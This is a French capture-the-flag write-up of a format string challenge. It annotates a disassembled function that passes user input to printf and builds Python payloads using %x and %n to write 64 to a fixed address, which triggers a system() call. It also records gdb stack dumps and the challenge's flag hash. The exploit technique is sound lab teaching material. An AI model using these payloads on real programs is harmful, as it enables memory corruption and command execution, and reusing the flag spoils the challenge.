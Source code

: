 Le but du challenge est d'écrire `64` à l'adresse `0x804988c`:

```
080484a4 <v>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	81 ec 18 02 00 00    	sub    esp,0x218					; 536
 80484ad:	a1 60 98 04 08       	mov    eax,ds:0x8049860				; = stdin
 80484b2:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax		; stream
 80484b6:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200	; 512 = size
 80484bd:	00 
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]				; on prend le pointeur de ebp-520.
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax			; *s
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]				; *s
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>			; print(*s) => string format vulnerability.
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c				; grace au format string, on écrit dans la stack à cet adresse 40o.
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
 80484e4:	a1 80 98 04 08       	mov    eax,ds:0x8049880
 80484e9:	89 c2                	mov    edx,eax
 80484eb:	b8 00 86 04 08       	mov    eax,0x8048600
 80484f0:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 80484f4:	c7 44 24 08 0c 00 00 	mov    DWORD PTR [esp+0x8],0xc
 80484fb:	00 
 80484fc:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048503:	00 
 8048504:	89 04 24             	mov    DWORD PTR [esp],eax
 8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
 804850c:	c7 04 24 0d 86 04 08 	mov    DWORD PTR [esp],0x804860d
 8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
 8048518:	c9                   	leave  
 8048519:	c3                   	ret    
```

format string exploit
On a 8 octets pour passer de 520 pendant 512B à 0.
%x => destak 4 bytes => print 0x200				[ Sur la stack ]
%x => destask 4 bytes => print 0xb7fd1ac0		[ Sur ret adresse ]

Lorsque l'on utilise `x/100xw $sp`, on peut voir :
```
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0
```

Sachant que `0xbffff520` contient notre input string. Par conséquent, si on utilise `%n`, on sait qu'on devrait avoir "11" écrit dans notre string. Testons.

`Program received signal SIGSEGV, Segmentation fault.` ça a fonctionné !

En balançant 512 fois la lettre "a", notre stack a cet état-là:
```
(gdb) x/100xw $sp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x41414141	0x41414141	0x41414141
```

Donc, on peut faire :
`%x%x%x[padding]%n[padding][address]`

Comme ça, on destack `0x00000200`, puis `0xb7fd1ac0`, puis `0xb7ff37d0`. Après, on arrive sur notre adresse `0x41414141` que l'on a plus qu'à modifier par `0x804988c`. Notre objectif est de mettre le `%n` PILE quand on a écrit `64`.

Payload:
`%028x%028x%08x` => qui va écrire les 3 adresses, les deux première pendant 28 chars en complétant avec des 0, puis avec 8 caractères compléter avec des 0.

Avec ça, on obtient 64 caractères : `000000000000000000000000020000000000000000000000b7fd1ac0b7ff37d0`

Il ne reste plus qu'à insérer le `%n`, puis à mettre notre padding et notre adresse à la toute fin.
`%028x%028x%08x%n` fait 16 caractères, il nous en faut 508 pour pouvoir écrire l'adresse. On peut donc partir sur un padding de 492 caractères.

```py
print("%028x%028x%08x%n" + "A" * 492 + "\x8c\x98\x04\x08")
```

Et là ... problème, quand je lis la stack, je vois que mon adresse `0x0004988c` n'est pas au bon endroit dans la stack. Il faut donc inverser la payload. Nous n'aurons plus besoin de faire un "overflow".

```py
print("\x8c\x98\x04\x08" + "%028x%024x%08x%n")
```

Et ça fonctionne !

`b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`